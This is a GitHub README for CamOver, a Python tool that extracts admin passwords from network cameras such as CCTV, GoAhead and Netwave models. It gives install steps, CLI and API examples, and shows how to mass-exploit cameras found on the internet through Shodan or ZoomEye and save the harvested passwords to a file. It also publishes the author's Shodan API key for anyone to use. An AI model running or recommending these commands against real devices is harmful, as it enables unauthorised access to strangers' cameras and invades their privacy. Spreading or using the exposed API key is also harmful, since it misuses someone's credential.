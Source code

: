 # CamOver

<p>
    <a href="https://entysec.netlify.app">
        <img src="https://img.shields.io/badge/developer-EntySec-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/CamOver">
        <img src="https://img.shields.io/badge/language-Python-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/CamOver/stargazers">
        <img src="https://img.shields.io/github/stars/EntySec/CamOver?color=yellow">
    </a>
</p>

CamOver is a camera exploitation tool that allows to disclosure network camera admin password.

## Features

* Exploits vulnerabilities in most popular camera models such as `CCTV`, `GoAhead` and `Netwave`.
* Optimized to exploit multiple cameras at one time from list with threading enabled.
* Simple CLI and API usage.

## Installation

```shell
pip3 install git+https://github.com/EntySec/CamOver
```

## Basic usage

To use CamOver just type `camover` in your terminal.

```
usage: camover [-h] [-t] [-o OUTPUT] [-i INPUT] [-a ADDRESS] [--shodan SHODAN]
               [--zoomeye ZOOMEYE] [-p PAGES]

CamOver is a camera exploitation tool that allows to disclosure network camera
admin password.

optional arguments:
  -h, --help            show this help message and exit
  -t, --threads         Use threads for fastest work.
  -o OUTPUT, --output OUTPUT
                        Output result to file.
  -i INPUT, --input INPUT
                        Input file of addresses.
  -a ADDRESS, --address ADDRESS
                        Single address.
  --shodan SHODAN       Shodan API key for exploiting devices over Internet.
  --zoomeye ZOOMEYE     ZoomEye API key for exploiting devices over Internet.
  -p PAGES, --pages PAGES
                        Number of pages you want to get from ZoomEye.
```

### Examples

**Exploiting single camera**

Let's hack my camera just for fun.

```shell
camover -a 192.168.99.100
```

**Exploiting cameras from Internet**

Let's try to use Shodan search engine to exploit cameras over Internet, we will use it with `-t` for fast exploitation.

```shell
camover -t --shodan PSKINdQe1GyxGgecYz2191H2JoS9qvgD
```

**NOTE:** Given Shodan API key (`PSKINdQe1GyxGgecYz2191H2JoS9qvgD`) is my PRO API key, you can use this key or your own, be free to use all our resources for free :)

**Exploiting cameras from input file**

Let's try to use opened database of cameras with `-t` for fast exploitation.

```shell
camover -t -i cameras.txt -o passwords.txt
```

**NOTE:** It will exploit all cameras in `cameras.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

## API usage

CamOver also has their own Python API that can be invoked by importing CamOver to your code.

```python
from camover import CamOver
```

### Basic functions

There are all CamOver basic functions that can be used to exploit specified camera.

* `exploit(address)` - Exploit single camera by given address.

### Examples

**Exploiting single camera**

```python
from camover import CamOver

camover = CamOver()
creds = camover.exploit('192.168.99.100')

print(creds)
```

## Other tools

<p>
    <a href="https://github.com/EntySec/Ghost">
        <img src="https://img.shields.io/badge/EntySec-%20Ghost-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatVenom">
        <img src="https://img.shields.io/badge/EntySec-%20HatVenom-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/Shreder">
        <img src="https://img.shields.io/badge/EntySec-%20Shreder-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatSploit">
        <img src="https://img.shields.io/badge/EntySec-%20HatSploit-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/RomBuster">
        <img src="https://img.shields.io/badge/EntySec-%20RomBuster-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/CamRaptor">
        <img src="https://img.shields.io/badge/EntySec-%20CamRaptor-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/membrane">
        <img src="https://img.shields.io/badge/EntySec-%20membrane-f34c79.svg">
    </a>
    <a href="https://github.com/EntySec/pwny">
        <img src="https://img.shields.io/badge/EntySec-%20pwny-448eff.svg">
    </a>
</p>
